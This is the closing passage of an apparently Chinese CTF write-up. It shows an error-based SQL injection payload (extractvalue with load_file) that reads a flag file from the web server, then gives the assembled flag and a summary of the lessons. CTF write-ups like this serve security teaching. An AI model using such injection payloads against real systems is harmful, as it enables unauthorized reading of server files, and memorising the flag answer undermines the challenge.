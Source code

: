 ![ctf-20180416223715718](/images/posts/ctf/ctf-20180416223715718.png)

获取到flag的前半部分，同查询密码的步骤，获取flag的后半部分：

```bash
' and extractvalue(1,concat(0x5c,mid(select load_file('/var/www/html/f13g_ls_here.txt'), 20, 52)))#
```

![ctf-20180416224034161](/images/posts/ctf/ctf-20180416224034161.png)

**拼接得到完整flag**：`flag{8a69155e-c420-4c21-917a-313d5ec65b0a}`

至此，得到flag。

## 总结

这次题目难度适中，主要在于三个关键点。

第一个属于破题点，其在于利用参数key错误获取出错信息，来找到使用框架的漏洞；第二个比较关键的点是考察代码审计的功底；第三个就是SQL注入的熟练度。

如果对任何一个方面不熟悉的话，还是需要花费些许精力的，熟能生巧，加油！
